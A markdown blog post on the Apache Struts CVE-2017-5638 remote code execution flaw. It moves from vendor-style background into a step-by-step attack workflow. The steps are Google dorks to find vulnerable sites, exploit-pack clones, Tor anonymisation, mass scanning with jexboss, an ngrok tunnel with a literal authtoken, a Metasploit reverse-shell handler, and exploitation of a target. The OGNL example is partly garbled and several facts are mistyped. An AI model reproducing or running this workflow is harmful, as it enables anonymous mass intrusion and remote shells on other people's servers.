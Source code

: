 ```yaml
---
title: APACHE STRUTS VULNERABILITY CVE 2017-5638 - Quick Sort
category: Article
date: 2019-2-19
author: 読み上げ
comment: true
---
```


## Apache Struts
What is [Apache Struts](https://www.whitehatsec.com/glossary/content/apache-struts)?
Apache Struts is an open-source web application framework used for creating Java EE web applications. It became a top-level Apache project in 2005. 
Without Apache Struts, a standard Java EE web application receives information to a server through a web form submitted by a client or similar user. The information is then given to a Java Servlet or JavaServer Pages. In the Java Servlet, the information communicated interacts with a database and creates a response in HTML. Similarly, JavaServer Pages can be used to blend Java code and HTML for the same result. 
Since these approaches mix presentation with application logic, they can make maintenance difficult for large projects. Apache struts is used to help amend that.
Apache Struts helps fix the problems created with a standard Java EE web application by separating the model (the application logic that interacts with a database) from the view (HTML pages shown to the client) and from the controller (information that passes between the model and view). Struts provides the controller and promotes the writing of templates for the presentation layer or view. The programmer needs to write the model code and create a central configurate file that binds together model, view, and controller.

## What is Apache Struts 1?
Apache Struts 1 is the first iteration of Struts created in May 200 by Craig McClanahan and donated to the Apache Foundation. Its request-based framework consisted of 3 main components:
 - ***A Request Handler***
 - ***A Response Handler***
 - ***A Tag Library***
 
These worked to simplify the process of handling large projects and supported REST applications in addition to technologies such as SOAP & AJEX. However, due to limitations within Apache Struts 1 it was modified and updated in Struts 2.

## What is Apache Struts 2?
Apache Struts 2 was released in February 2007 and the rebranding of WebWork 2.2. Whilst the same architecture from Struts 1 was the same, the code base was completely different and unlike Struts 1 where requests went directly to the servlet, in Struts 2 requests & responses travel through an interceptor/filter.

## Vulnerabilities within Apache Struts
Struts has had numerous vulnerabilities disclosed, many based on its use of OGNL (Object-Graph Navigation Language). Many of these vulnerabilities have been particularly serious as they allow an attacker to carry out arbitrary remote code execution, potentially allowing complete control of the server. 
The most high-profile Struts exploit happened in September 2017’s Equifax breach, which took advantage of a Struts vulnerability disclosed 6 months earlier. 
Whilst some vulnerabilities were discovered within Struts 1 ( Denial of Service: [CVE-2006-1547](https://www.cvedetails.com/cve/CVE-2006-1547/), Cross Site Scripting: [CVE-2008-2025](https://www.cvedetails.com/cve/CVE-2008-2025/)), most vulnerabilities have been found on Struts 2 with many tied to the usage of OGNL technology.
In 2016 there were 16 unique CVE’s released relating to Apache Struts 2 which like Struts 1 included, Denial of Service & Cross Site Scripting but further included Remote Code Execution and CSRF.
In 2017 there were 15 16 unique CVE’s. It was in 2017 it was discovered that certain versions of the [Apache Struts 2](https://www.whitehatsec.com/blog/apache-struts-cve-2017/) Framework (Struts 2.3.5 – 2.3.31 and 2.5 – 2.5.10) were vulnerable to remote code execution attacks. This allowed attackers to deliver malicious payloads. To prevent these attacks, it was recommended to upgrade to Apache Struts version 2.3.32 or 2.5.10.1.
You’ll gain a comprehensive understanding of the state of application security across the whole software development life cycle by reading through our [latest Stats Report](https://www.whitehatsec.com/resources-category/threat-reports/).

## Apache Struts Vulnerability Testing 
[WhiteHat’s DAST application scanning](https://www.whitehatsec.com/platform/dynamic-application-security-testing/) detects a large number of Struts vulnerabilities using production-safe tests. 

# What is CVE-2017-5638?
Struts is vulnerable to remote command injection attacks through incorrectly parsing an attacker’s invalid Content-Type HTTP header. The Struts vulnerability allows these commands to be executed under the privileges of the Web server. This is full remote command execution and has been actively exploited in the wild from the initial disclosure.

The vulnerable code is in the Jakarta Multipart parser. If the Content-Type value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the Content-Type to an OGNL expression such as:

~~~bash
Content­Type: ${(#_='multipart/form­data')}...
#eps=#container.toString()
#cmds=({'/bin/echo', #eps})
com.opensymphony.xwork2.inject.ContainerImpl@d0d2b00
~~~
![img-sample](https://www.synopsys.com/blogs/software-security/wp-content/uploads/HTTPRequestWithCurl.png)

The curl command shown above demonstrates whether the server is vulnerable or not by sending an http request with an embedded OGNL expression in the Content-Type header and receiving a response.

## FIND POTENTIAL TARGETS

~ intitle:"Struts problem report" intext:"Struts has detected an Unhandled"
~ intitle:"Struts Problem Report" intext:"development mode is enabled."
~ filetype:action
~ filetype:do
~ filetype:java
~ filetype:out
~ filetype:bat
~ filetype:seam
~ filetype:sh
~ filetype:bson
~ filetype:el
~ filetype:pm
~ inurl:login.action
~ inurl:login.do
~ inurl:login.java
~ inurl:index.action
~ inurl:index.do
~ inurl:index.java

## DEPENDENCIES

~~~bash
git clone https://github.com/s1kr10s/Apache-Struts-v3.git
git clone https://github.com/drigg3r/Struts-Apache-ExploitPack.git
git clone https://github.com/opsdisk/pagodo.git
git clone https://github.com/3ndG4me/torphantom.git
~~~

## Optional
Save your dorks list into a file such as "dorks.txt" and Specify the output path and filename such as "urls.txt"
~~~bash
$ sudo python pagodo.py ­-g dorks.txt ­-l 200 ­-s ­-e 35.0 ­-j 1.1 >> urls.txt
~~~

## INITIALIZE TOR SESSION WITH TORPHANTOM
###  Type the below commands
~~~bash
$ sudo torphantom start ­-i <interface>
~~~

### Scan using Struts-Scanner
Type the below commands and follow up the screen prompt
~~~bash
$ ./struts­-scanner
~~~
Type the below commands after correcting the input and output file paths
~~~bash
$ python jexboss.py ­-mode -file­-scan -­file /path/file/urls.txt ­-out /path/output/results.log ­­--struts2
~~~

## INITIALIZE TCP TUNNELING WITH NGROK
~~~bash
$ ./ngrok authtoken 8ml78jQFrVNah4cN8UwTt_5ZVZYRPD8q7huTk7vo8MZ
~~~
*Your Token can be found in your Ngrok account*

Create the Ngrok session on the port 4444 using the below command
~~~bash
$ ./ngrok tcp 4444
~~~

## CREATE MSF HANDLER
~~~bash
$ msfconsole
$ msf > use exploit/multi/handler
$ msf exploit(multi/handler) > set LHOST 0.0.0.0 LHOST => 0.0.0.0
$ msf exploit(multi/handler) > set LPORT 4444 LPORT => 4444
$ msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp PAYLOAD => linux/x86/shell/reverse_tcp msf exploit(multi/handler) > show options
~~~

## EXPLOIT THE TARGET
~~~bash
$ sudo python jexboss.py -u http://example.com/login.action
~~~
<details>
<summary>Complete Guide</summary>
[netsparker](https://www.netsparker.com/blog/web-security/finding-exploiting-apache-struts-vulnerabilities/)
[Related Articles](https://github.com/search?q=apachestruts&type=all)
